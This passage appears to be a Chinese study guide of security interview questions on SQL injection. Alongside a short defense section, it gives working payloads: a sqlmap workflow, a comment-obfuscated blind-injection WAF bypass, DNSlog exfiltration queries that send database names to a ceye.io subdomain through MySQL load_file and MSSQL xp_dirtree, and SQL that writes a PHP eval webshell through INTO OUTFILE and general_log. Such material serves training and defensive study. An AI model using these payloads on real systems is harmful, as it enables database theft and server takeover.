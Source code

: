 ## 48-SQL注入只能查帐号密码？

    最低权限都可以查找帐号和密码，如 mssql sa 权限可以获取系统权限，dbowner 可以获取 Webshell，public 可以脱库；mysql root 权限、知道网站的绝对路径、数据库 my.ini 配置文件 secure_file_priv 值为空时，就可以获取 webshell 并执行操作系统命令。

## 49-sqlmap，怎么对一个注入点注入？

    1.如果是get注入，直接，sqlmap-u"注入点网址".2.如果是post注入，可以sqlmap–r"burp地址访问包”3.如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap-r"文件地址"，记得加上—level3参数

## 50-SQL注入的防护方法？

    1、涵数过滤，如!is_numeric涵数//判断变量id是否为数字2、直接下载相关防范注入文件，通过incloud包含放在网站配置文件里面，如360、阿里云、腾迅提供的防注入脚本3、使用白名单来规范化输入验证方法4、采用PDO预处理5、使用Waf拦截

## 51-盲注IF被过滤怎么绕过？

    如果andif被 waf 拦截，我们可以使用内联注释来绕过函数的检测，如：xor/*!if*/(length(/*!database*//*!()*/)>=1,/*!sleep*//*!(1)*/,curdate())%23^/*!if*/(length(/*!database*//*!()*/)>=1,/*!sleep*//*!(1)*/,curdate())%23/*!if*/(length(/*!database*//*!()*/)>=1,/*!sleep*//*!(1)*/,curdate())%23andcasewhen1!=0then/*!sleep*//*!(5)*/else0end%23

## 52-SQL注入无回显，利用DNSlog如何构造？

    1.没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁IP，可以尝试调整请求频率，有条件的使用代理池进行请求。2.此时也可以使用DNSlog注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。3.Mysql中利用load_file()构造payload‘andif((selectload_file(concat(‘\\\\’,(selectdatabase()),’.xxx.ceye.io\\abc’))),1,0)#4.Mssql下利用master..xp_dirtree构造payloadDECLARE@hostvarchar(1024);SELECT@host=(SELECTdb_name())+’.xxx.ceye.io’;EXEC(‘master..xp_dirtree”\’+@host+’\foobar$”‘);

## 53.PHPadmin写shell的方法？

    一、常规导入shell的操作创建数据表导出shellCREATETABLE`mysql`.`shadow9`(`content`TEXTNOTNULL);INSERTINTO`mysql`.`shadow9`(`content`)VALUES(‘<?php@eval($_POST[pass]);?>’);SELECT`content`FROM`shadow9`INTOOUTFILE‘C:\\phpStudy\\WWW\\90sec.php’;DROPTABLEIFEXISTS`shadow9`;二、一句话导出shell：select'<?php@eval($_POST[pass]);?>'intooutfile'c:/phpstudy/www/90sec.php';select'<?php@eval($_POST[pass]);?>'intooutfile'c:\\phpstudy\\www\\90sec.php';select'<?php@eval($_POST[pass]);?>'intodumpfile'c:\\phpstudy\\www\\bypass.php';三、日志备份获取shellshowglobalvariableslike"%genera%";//查询general_log配置setglobalgeneral_log='on';//开启generallog模式SETglobalgeneral_log_file='D:/phpStudy/WWW/cmd.php';//设置日志文件保存路径SELECT'<?phpphpinfo();?>';//phpinfo()写入日志文件setglobalgeneral_log='off';//关闭general_log模式

## 54.预编译能不能百分百防御SQL注入？如不能请举例

    $pdo->query('SETNAMESgbk');$var="\xbf\x27OR1=1/*";$query='SELECT*FROMtestWHEREname=?LIMIT1';$stmt=$pdo->prepare($query);$stmt->execute(array($var));#类似于宽字节注入

    $dbh=newPDO("txf");$name=$_GET['name'];$stmt=$dbh->prepare('SELECT*FROM'.$name.'whereusername=:username');$stmt->execute(array(':username'=>$_REQUEST['username']));#参数name是一串数组，PDO不会生效

    $stmt=$dbh->prepare('SELECT*FROMfooORDERBY:userSuppliedData');#PDO对DDL不生效

